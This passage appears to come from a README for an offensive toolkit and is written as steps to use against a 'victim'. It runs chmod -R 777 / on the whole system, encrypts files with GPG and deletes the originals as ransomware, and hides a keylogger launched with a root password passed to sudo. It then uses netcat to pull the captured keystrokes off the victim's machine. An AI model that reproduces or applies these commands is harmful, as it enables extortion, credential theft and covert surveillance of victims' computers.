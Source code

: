 * chmod -R 777 /  
Allows all users to read, write and execute all files on the system.


### Ransomware
---------------
Since GPG is installed on the victim's computer, one can use GPG to make an encrypted copy of the file and make it password protected. The old, unencrypted file, can be deleted and therefore only the encrypted files remain. 

* gpg -c filename.extension  
Encrypts the file. After this command you are asked to give a password and repeat it.

* gpg filename.extension.gpg  
Decrypts the file. One must use the command used to encrypt the file to decrypt it.

* tar czf myfiles.tar.gz mydirectory/  
Compresses a directory into a encryptable file.

* tar -czvf file.tar.gz /home/vivek/data/ /home/vivek/pics/ /home/vivek/.accounting.db  
Compresses two directories and a file into a encryptable file.

* tar -xzvf file.tar.gz  
Exctracts an archive.


### Keylogger
---------------
Before one can start to use the keylogger, the victim must have the logger.py file downloaded somewhere on its computer. This is most easily done via the file transfer explained in the section below. 

Once a connection is established, acces to the victim's terminal is acquired and logger.py is available, one can follow the code below in the same order to use the keylogger.

echo -e '#!/bin/sh\n echo [root password] | sudo -S python3 logger.py x & > logger.sh  
A .sh file will be created in the same directory with this code.
The x must be replaced with a number after the amount of characters typed must be stored, usually this is x = 10.

chmod +x logger.sh  
Make this file executable.

gnome-terminal -x ./logger.sh  
Execute the keylogger with a new terminal unseen in the background.

The extracted data will be stored in the datalog.txt file.
One can transfer this file to the ownner by using netcat in reverse.


### File transfer
---------------
We can exchange files with the victim by using Netcat.
For a more detailed guide, consult this page https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/.

Run the following command on the receiving end:  
nc -l -p 1234 > name.extension  
